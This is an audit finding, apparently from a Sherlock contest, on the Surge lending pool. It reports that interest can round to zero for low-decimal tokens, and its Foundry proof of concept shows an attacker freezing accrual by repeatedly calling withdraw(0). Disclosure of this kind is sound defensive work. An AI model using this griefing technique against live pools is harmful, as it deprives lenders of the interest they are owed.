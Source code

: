 Tricko

high

# Interest accrued could be zero for tokens with small amount of decimals

## Summary
For loan tokens with small amount of decimals accrued interest can be rounded to zero if the time between accruals is small.

## Vulnerability Detail

If calls to `deposit`, `withdraw`, `repay` or any other method that calls `getCurrentState` internally happens frequently, as expected on pools with many users, the time delta between interest acrruals (`block.timestamp - _lastAccrueInterestTime`) will be small. On this scenario if the lending token has small amount of decimals, the interest (`uint _interest = _totalDebt * _borrowRate * _timeDelta / (365 days * 1e18)`) can get rounded down to zero if the total debt is also small (See Proof of Concept section below). Therefore on those situations, debt positions won't accrue interest, possibly breaking protocol funcionality.

Attackers can exploit this to intentionally block pools with small TVL and loan tokens with small amount of decimals from accruing interest at little cost. Consider tokens like the euro stablecoin EURS, which contains only 2 decimals, an attacker can keep calling `withdraw(0)` at every new block (~12s timeDelta) to block the pool from interest accrual until `_totalDebt` reaches hundreds of thousands to millions euros worth of tokens (exact values depend on the pool configuration)

## Impact
Attackers can exploit this to block debt positions from accruing interest at little cost, breaking protocol funcionality

## Proof of Concept
```solidity
pragma solidity 0.8.17;

import "../lib/forge-std/src/Test.sol";
import "../src/Pool.sol";
import "../src/Factory.sol";
import "../src/PoolLens.sol";
import "./mocks/ERC20.sol";

contract PoolTest is Test {
    Factory factory;
    MockERC20 collateralToken;
    MockERC20 loanToken;
    Pool pool;
    
    uint256 amount;
    address alice;

    function setUp() public {
        collateralToken = new MockERC20(1e36, 2);
        loanToken = new MockERC20(1e36, 2);
        factory = new Factory(address(this), "G");
        pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        alice = makeAddr("alice");

        amount = 1e7;
        loanToken.transfer(address(pool), 10*amount);
        collateralToken.transfer(alice, amount);
    }

    function testPOC() external {
        vm.startPrank(alice);
        collateralToken.approve(address(pool),amount);
        pool.addCollateral(address(alice), amount);
        pool.borrow(amount);
        vm.stopPrank();

        uint256 initialDebt = pool.lastTotalDebt();

        vm.warp(block.timestamp + 12);
        pool.withdraw(0); //Update state
        uint256 firstAccrueDebt = pool.lastTotalDebt();
        assertEq(firstAccrueDebt, initialDebt);

        vm.warp(block.timestamp + 12);
        pool.withdraw(0); //Update state
        uint256 secondAccrueDebt = pool.lastTotalDebt();
        assertEq(secondAccrueDebt, initialDebt);
    }
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L105-L166

## Tool used
Manual Review

## Recommendation
Consider scaling the token up in order to increase precision during internal calculations.
